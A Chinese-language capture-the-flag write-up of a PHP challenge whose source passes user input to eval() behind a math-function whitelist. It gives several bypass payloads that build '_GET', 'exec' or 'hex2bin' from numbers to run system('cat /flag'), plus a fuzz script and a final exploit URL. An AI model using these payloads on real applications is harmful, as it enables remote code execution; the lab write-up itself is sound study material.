

# 知识点：

# 1.数学函数构造命令执行函数

# 2.动态函数

### php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数

### 例如：$function = "sayHello";$function();


## 1.直接给出源码

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```


## 2.大体意思就是只能使用，白名单的数学函数，构造payload，造成代码执行

```php
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
```


## 3.经测试还可以使用.,^符号，还有白名单的函数


# 4.构造paylpad

# 4.1 构造_GET，绕过限制

```php
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi)
{abs})&pi=system&abs=cat /flag
```


解释：

```php
base_convert(37907361743,10,36) => "hex2bin"
dechex(1598506324) => "5f474554"
$pi=hex2bin("5f474554") => $pi="_GET"   //hex2bin将一串16进制数转换为二进制字符串
($$pi){pi}(($$pi){abs}) => ($_GET){pi}($_GET){abs}  //{}可以代替[]
将传入的pi和abs替换，就构成了sysytem(cat /flag)
```


## 4.2 还可以使用getallheaders()函数

```php
$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})
```


解释：

```php
base_convert(696468,10,36) => "exec"
$pi(8768397090111664438,10,30) => "getallheaders"
exec(getallheaders(){1})

```




# 4.3 直接获取flag

```php
//exec('hex2bin(dechex(109270211257898))') => exec('cat f*')
($pi=base_convert)(22950,23,34)($pi(76478043844,9,34)(dechex(109270211257898)))
//system('cat'.dechex(16)^asinh^pi) => system('cat *')
base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi))
```


# 4.4

# 前面都是利用白名单的数学函数将数字转成字符串，其实也可以

# 这是fuzz脚本

```php
<?php
$payload = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
for($k=1;$k<=sizeof($payload);$k++){
    for($i = 0;$i < 9; $i++){
        for($j = 0;$j <=9;$j++){
            $exp = $payload[$k] ^ $i.$j;
            echo($payload[$k]."^$i$j"."==>$exp");
            echo "<br />";
        }
    }
}
```


最后的payload：

```php
http://833b3035-65c8-45f0-aef4-8214e5f05661.node3.buuoj.cn/?c=$pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1})&0=system&1=cat%20/flag
```


